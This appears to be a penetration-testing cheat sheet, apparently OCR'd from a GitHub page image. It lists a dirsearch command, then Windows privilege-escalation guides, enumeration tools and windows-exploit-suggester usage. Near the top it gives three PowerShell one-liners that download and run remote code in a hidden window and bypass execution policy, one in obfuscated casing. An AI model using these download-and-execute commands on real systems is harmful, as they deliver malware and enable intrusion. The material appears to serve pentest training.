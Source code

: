 ```dirsearch -u <url>```
    powershell.exe -command PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command (New-Object System.Net.WebClient).DownloadFile('<url>',"$env:APPDATA\ps.exe");Start-Process ("$env:APPDATA\ps.exe")


    ## Version1
    c:\Windows\System32\cmd.exe /c powershell.exe -w hidden -noni -nop -c "iex(New-Object System.Net.WebClient).DownloadString('<url>')"


    ## Version2
    c:\windows\system32\cmd.exe /c PowErsHelL.EXE -eXecUtiONPoLICy bYPass -NOPROfilE -WinDoWSTYlE hiDden -EnCodeDcOmmAnd <base64 Command>


**Privilege Escalation**

Guides for privilege Escalation

Basic Pentesting 1 OVA

https://www.vulnhub.com/entry/basic-pentesting-1,216/ 


*Guides*

**Windows**

https://www.fuzzysecurity.com/tutorials/16.html 


*Windows-PrivEsc-Checklist*

https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation

*Analysis Tools*

Executable

- winPEAS.exe https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS 

Deployment with Visual Studio Required

- Seatbelt.exe https://github.com/GhostPack/Seatbelt 
- Watson.exe https://github.com/rasta-mouse/Watson
- SharpUp.exe https://github.com/GhostPack/SharpUp

PowerShell

- Sherlock.ps1 https://github.com/rasta-mouse/Sherlock 
- PowerUp.ps1 https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc 
- jaws-enum.ps1 https://github.com/411Hall/JAWS

Other

- windows-exploit-suggester.py https://github.com/AonCyberLabs/Windows-Exploit-Suggester

    python2 -m pip install xlrd --upgrade
    python2 windows-exploit-suggester.py --update --gives the database for vulnerabilities
    C:\>systeminfo > win7sp1-systeminfo.txt
    python2 windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
```